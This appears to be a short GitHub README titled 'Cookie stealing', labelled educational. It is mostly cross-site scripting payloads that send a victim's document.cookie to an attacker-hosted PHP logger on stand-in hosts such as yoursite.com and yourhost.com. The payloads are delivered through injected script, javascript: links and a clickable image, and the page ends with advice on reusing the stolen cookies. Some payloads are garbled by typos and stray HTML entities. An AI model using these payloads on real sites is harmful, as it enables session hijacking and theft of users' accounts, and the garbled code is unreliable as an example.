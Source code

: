 # **Cookie stealing**
<p>Some cooklie stealing using php
**ONLY FOR EDUCATIONAL PURPOSES**</p>

Some examples of using them:
```
"><script language= "JavaScript">document.location="http://yoursite.com/whateveryouwant.php?cookie=" + document.cookie;document.location="http://www.whateversite.com"</script>
```
yoursite.com is the server you’re hosting your cookie stealer and log file on, and whateversite.com is the vulnerable page you’re exploiting.

The victim just enters the page:
```
<script language="Java script">
document.location="http://www.yourhost.com/cookielogger.php?cookie=&quot; + document.cookie;
</script>
```

Your can also trick the victim into clicking a link that activates javascript.
```
<a href="java script:document.location='http://www.yourhost.com/cookielogger.php?cookie='+document.cookie;">Click here!</a>
```

Clicking an image also can activate the script.For this purpose you can use the below code.
```
<a href="java script:document.location='http://www.yourhost.com/cookielogger.php?cookie='+document.cookie;"&gt;
<img src="URL OF THE IMAGE"/></a>
```

To use the information download a cookie editor such as firebug.